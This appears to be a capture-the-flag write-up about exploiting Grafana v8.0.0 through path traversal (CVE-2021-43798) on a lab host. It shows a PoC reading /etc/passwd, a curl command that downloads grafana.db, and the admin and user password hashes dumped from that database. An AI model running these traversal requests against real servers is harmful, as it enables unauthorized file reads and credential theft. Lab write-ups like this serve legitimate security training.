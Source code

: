 # LFI via Plugins

I did some research into this specific version `v8.0.0`, and it seems as though this is vulnerable to arbitrary file read via [CVE-2021-43798](https://github.com/wagneralves/CVE-2021-43798/tree/main). This essentially allows us to traverse through the website's root filesystem directly through the URL. The POC that I referenced does this manually for us - so we'll use it to determine if we can access to any files.

```
└─$ ./ExploitGrafana.sh -h http://10.10.64.184:3000 -f /etc/passwd
Plugin alertlist Status code 200:
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 10.10.64.184:3000...
* Connected to 10.10.64.184 (10.10.64.184) port 3000
> GET /public/plugins/alertlist/../../../../../../../../../../../../..//etc/passwd HTTP/1.1
> Host: 10.10.64.184:3000
> User-Agent: curl/8.7.1
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
```

It seems as though we were able to get a `200` response from the path traversal. You can see the GET request in the markdown above, and at the bottom of this commands output should be the `/etc/passwd` file of the machine. This confirms that the POC works and that the website is vulnerable.

That being said, we'll still need to be able to use this vulnerability to find credentials. This HackTricks [article](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/grafana) outlines a default file that we can grab that should have valid credentials to the website if it was installed with no further maintenance. The file that we are looking for is under `/var/lib/grafana/grafana.db`, the internal Grafana SQLITE database.

We can grab this easily with cURL, and we can save it to a file locally using `--output` to prevent it from being outputted to the terminal.

```
└─$ curl http://10.10.64.184:3000/public/plugins/alertlist/../../../../../../../../../..//var/lib/grafana/grafana.db --path-as-is --output grafana.db

└─$ ls
ExploitGrafana.sh  README.md  grafana.db
```

Now that we have the Grafana database locally, we can read it with `sqlite3` and use `.dump` to dump out all the contents of the database.
Alternatively, we can determine the specific table we want to look at by running `.tables`, which will tell us that there is a `user` table. We can then run `SELECT * from user;` to dump this table and all of its contents.

```
sqlite> SELECT * FROM user;
1|0|admin|admin@localhost||7a919e4bbe95cf5104edf354ee2e6234efac1ca1f81426844a24c4df6131322cf3723c92164b6172e9e73faf7a4c2072f8f8|YObSoLj55S|hLLY6QQ4Y6||1|1|0||2022-01-23 12:48:04|2022-01-23 12:48:50|0|2022-01-23 12:48:50|0
2|0|boris|boris@data.vl|boris|dc6becccbb57d34daf4a4e391d2015d3350c60df3608e9e99b5291e47f3e5cd39d156be220745be3cbe49353e35f53b51da8|LCBhdtJWjl|mYl941ma8w||1|0|0||2022-01-23 12:49:11|2022-01-23 12:49:11|0|2012-01-23 12:49:11|0
```
